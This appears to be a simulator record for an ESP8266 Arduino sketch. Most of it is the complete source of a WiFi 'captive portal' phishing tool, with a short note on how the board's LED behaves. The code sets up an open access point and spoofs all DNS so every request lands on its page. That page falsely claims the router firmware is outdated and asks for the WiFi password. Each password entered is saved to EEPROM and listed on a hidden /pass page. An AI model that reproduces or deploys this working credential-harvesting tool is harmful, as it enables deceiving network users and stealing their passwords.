
Simulated run of this sketch. Board: ESP8266 (NodeMCU). Parts: output pins drawn as LEDs (lit = HIGH, except the on-board LED, lit = LOW). Dashed ring = blinking. The test bench sets the inputs (shaded band). EEPROM starts erased; what the sketch prints to the serial monitor is not drawn.

Above: at 1.2 s.
1.3 s: HTTP request GET /post received
At 6.1 s:

Timing chart, 0 to 7.6 s (numbered marks = the images above; inputs shaded):


The sketch:

first.ino
```cpp
// ESP8266 WiFi Captive Portal
// By 125K (github.com/125K)

// Libraries
#include <ESP8266WiFi.h>
#include <DNSServer.h>
#include <ESP8266WebServer.h>
#include <EEPROM.h>

// Default SSID name
const char* SSID_NAME = "测试"; // 默认SSID名称

// Default main strings
#define SUBTITLE "Router info." // 路由器信息
#define TITLE "Update" // 更新
#define BODY "Your router firmware is out of date. Update your firmware to continue browsing normally." // 您的路由器固件已过期。请更新固件以继续正常浏览。
#define POST_TITLE "Updating..." // 正在更新...
#define POST_BODY "Your router is being updated. Please, wait until the proccess finishes.</br>Thank you." // 路由器正在更新。请等待过程完成。谢谢。
#define PASS_TITLE "Passwords" // 密码
#define CLEAR_TITLE "Cleared" // 已清除

// Init system settings
const byte HTTP_CODE = 200; // HTTP状态码
const byte DNS_PORT = 53; // DNS端口
const byte TICK_TIMER = 1000; // 定时器间隔
IPAddress APIP(172, 0, 0, 1); // Gateway // 网关

String allPass = "";
String newSSID = "";
String currentSSID = "";

// For storing passwords in EEPROM.
// 用于在EEPROM中存储密码
int initialCheckLocation = 20; // Location to check whether the ESP is running for the first time. // 检查ESP是否首次运行的位置
int passStart = 30;            // Starting location in EEPROM to save password. // 密码在EEPROM中的起始位置
int passEnd = passStart;       // Ending location in EEPROM to save password. // 密码在EEPROM中的结束位置


unsigned long bootTime=0, lastActivity=0, lastTick=0, tickCtr=0;
DNSServer dnsServer; ESP8266WebServer webServer(80);

String input(String argName) {
  String a = webServer.arg(argName);
  a.replace("<","&lt;");a.replace(">","&gt;");
  a.substring(0,200); return a; }

String footer() {
  return "</div><div class=q><a>&#169; All rights reserved.</a></div>";
}

String header(String t) {
  String a = String(currentSSID);
  String CSS = "article { background: #f2f2f2; padding: 1.3em; }"
    "body { color: #333; font-family: Century Gothic, sans-serif; font-size: 18px; line-height: 24px; margin: 0; padding: 0; }"
    "div { padding: 0.5em; }"
    "h1 { margin: 0.5em 0 0 0; padding: 0.5em; }"
    "input { width: 100%; padding: 9px 10px; margin: 8px 0; box-sizing: border-box; border-radius: 0; border: 1px solid #555555; border-radius: 10px; }"
    "label { color: #333; display: block; font-style: italic; font-weight: bold; }"
    "nav { background: #0066ff; color: #fff; display: block; font-size: 1.3em; padding: 1em; }"
    "nav b { display: block; font-size: 1.5em; margin-bottom: 0.5em; } "
    "textarea { width: 100%; }";
  String h = "<!DOCTYPE html><html>"
    "<head><title>" + a + " :: " + t + "</title>"
    "<meta name=viewport content=\"width=device-width,initial-scale=1\">"
    "<style>" + CSS + "</style>"
    "<meta charset=\"UTF-8\"></head>"
    "<body><nav><b>" + a + "</b> " + SUBTITLE + "</nav><div><h1>" + t + "</h1></div><div>";
  return h; }

String index() {
  return header(TITLE) + "<div>" + BODY + "</ol></div><div><form action=/post method=post><label>WiFi password:</label>"+
    "<input type=password name=m></input><input type=submit value=Start></form>" + footer();
}

String posted() {
  String pass = input("m");
  pass = "<li><b>" + pass + "</li></b>"; // Adding password in a ordered list. // 以有序列表形式添加密码
  allPass += pass;                       // Updating the full passwords. // 更新所有密码

  // Storing passwords to EEPROM.
  // 将密码存储到EEPROM
  for (int i = 0; i <= pass.length(); ++i)
  {
    EEPROM.write(passEnd + i, pass[i]); // Adding password to existing password in EEPROM. // 将密码添加到EEPROM中现有密码后面
  }

  passEnd += pass.length(); // Updating end position of passwords in EEPROM. // 更新EEPROM中密码的结束位置
  EEPROM.write(passEnd, '\0');
  EEPROM.commit();

  return header(POST_TITLE) + POST_BODY + footer();
}

String pass() {
  return header(PASS_TITLE) + "<ol>" + allPass + "</ol><br><center><p><a style=\"color:blue\" href=/>Back to Index</a></p><p><a style=\"color:blue\" href=/clear>Clear passwords</a></p></center>" + footer();
}

String ssid() {
  return header("Change SSID") + "<p>Here you can change the SSID name. After pressing the button \"Change SSID\" you will lose the connection, so reconnect to the new SSID.</p>" + "<form action=/postSSID method=post><label>New SSID name:</label>"+
    "<input type=text name=s></input><input type=submit value=\"Change SSID\"></form>" + footer();
}

String postedSSID() {
  String postedSSID = input("s"); newSSID="<li><b>" + postedSSID + "</b></li>";
  for (int i = 0; i < postedSSID.length(); ++i) {
    EEPROM.write(i, postedSSID[i]);
  }
  EEPROM.write(postedSSID.length(), '\0');
  EEPROM.commit();
  WiFi.softAP(postedSSID);
  return "a";
}

String clear() {
  allPass = "";
  passEnd = passStart; // Setting the password end location -> starting position. // 将密码结束位置设置为起始位置
  EEPROM.write(passEnd, '\0');
  EEPROM.commit();
  return header(CLEAR_TITLE) + "<div><p>The password list has been reseted.</div></p><center><a style=\"color:blue\" href=/>Back to Index</a></center>" + footer();
}

void BLINK() { // The built-in LED will blink 5 times after a password is posted. // 密码提交后内置LED闪烁5次
  for (int counter = 0; counter < 10; counter++)
  {
    // For blinking the LED. // 控制LED闪烁
    digitalWrite(BUILTIN_LED, counter % 2);
    delay(500);
  }
}

void setup() {
  // 初始化串口，方便调试输出
  Serial.begin(115200);

  // 记录启动时间和最近活动时间
  bootTime = lastActivity = millis();

  // 初始化EEPROM，分配512字节空间
  EEPROM.begin(512);
  delay(10); // 稍作延时，确保EEPROM初始化完成

  // 检查是否为首次运行，通过读取EEPROM中特定位置的数据判断
  String checkValue = "first"; // 用于标记首次运行的字符串

  for (int i = 0; i < checkValue.length(); ++i)
  {
    // 如果EEPROM中存储的内容与"first"不一致，说明是首次运行
    if (char(EEPROM.read(i + initialCheckLocation)) != checkValue[i])
    {
      // 写入"first"到指定位置，作为已初始化的标记
      for (int i = 0; i < checkValue.length(); ++i)
      {
        EEPROM.write(i + initialCheckLocation, checkValue[i]);
      }
      // 清空SSID和密码的存储区域
      EEPROM.write(0, '\0');         // SSID存储区首地址写入结束符，表示无SSID
      EEPROM.write(passStart, '\0'); // 密码存储区首地址写入结束符，表示无密码
      EEPROM.commit();               // 提交更改到EEPROM
      break; // 完成初始化后退出循环
    }
  }

  // 从EEPROM读取SSID
  String ESSID;
  int i = 0;
  while (EEPROM.read(i) != '\0') { // 直到遇到字符串结束符
    ESSID += char(EEPROM.read(i)); // 逐字节拼接SSID
    i++;
  }

  // 读取EEPROM中已保存的所有密码，并确定密码结束位置
  while (EEPROM.read(passEnd) != '\0')
  {
    allPass += char(EEPROM.read(passEnd)); // 追加到allPass字符串
    passEnd++;                             // 密码结束位置后移
  }

  // 设置WiFi为AP模式（热点模式）
  WiFi.mode(WIFI_AP);

  // 配置AP的IP地址、网关和子网掩码
  WiFi.softAPConfig(APIP, APIP, IPAddress(255, 255, 255, 0));

  // 设置当前SSID为EEPROM中读取到的SSID，如果没有则用默认SSID
  currentSSID = ESSID.length() > 1 ? ESSID.c_str() : SSID_NAME;

  // 串口输出当前SSID，便于调试
  Serial.print("Current SSID: ");
  Serial.print(currentSSID);

  // 启动WiFi热点
  WiFi.softAP(currentSSID);

  // 启动DNS服务器，实现DNS欺骗（所有域名都指向本机IP）
  dnsServer.start(DNS_PORT, "*", APIP);

  // 配置Web服务器的路由
  webServer.on("/post",[]() {
    webServer.send(HTTP_CODE, "text/html", posted()); // 处理密码提交
    BLINK(); // 密码提交后LED闪烁
  });
  webServer.on("/ssid",[]() {
    webServer.send(HTTP_CODE, "text/html", ssid()); // 处理SSID修改页面
  });
  webServer.on("/postSSID",[]() {
    webServer.send(HTTP_CODE, "text/html", postedSSID()); // 处理SSID修改提交
  });
  webServer.on("/pass",[]() {
    webServer.send(HTTP_CODE, "text/html", pass()); // 显示所有已保存的密码
  });
  webServer.on("/clear",[]() {
    webServer.send(HTTP_CODE, "text/html", clear()); // 清空密码
  });
  webServer.onNotFound([]() {
    lastActivity=millis();
    webServer.send(HTTP_CODE, "text/html", index()); // 处理未匹配到的路径，返回首页
  });
  webServer.begin(); // 启动Web服务器

  // 配置并点亮板载LED（高电平熄灭，低电平点亮，具体看硬件）
  pinMode(BUILTIN_LED, OUTPUT);
  digitalWrite(BUILTIN_LED, HIGH); // 默认关闭LED
}

void loop() {
  // 每隔TICK_TIMER毫秒更新时间
  if ((millis() - lastTick) > TICK_TIMER) {
    lastTick = millis();
    // 这里可以添加定时任务
  }
  // 处理DNS请求，实现劫持
  dnsServer.processNextRequest();
  // 处理HTTP请求
  webServer.handleClient();
}
```

Measured:
- after the input at 1.3 s, GPIO 2: alternates HIGH for 0.50 s and LOW for 0.50 s, 10 changes in all, then stays HIGH, starting at once
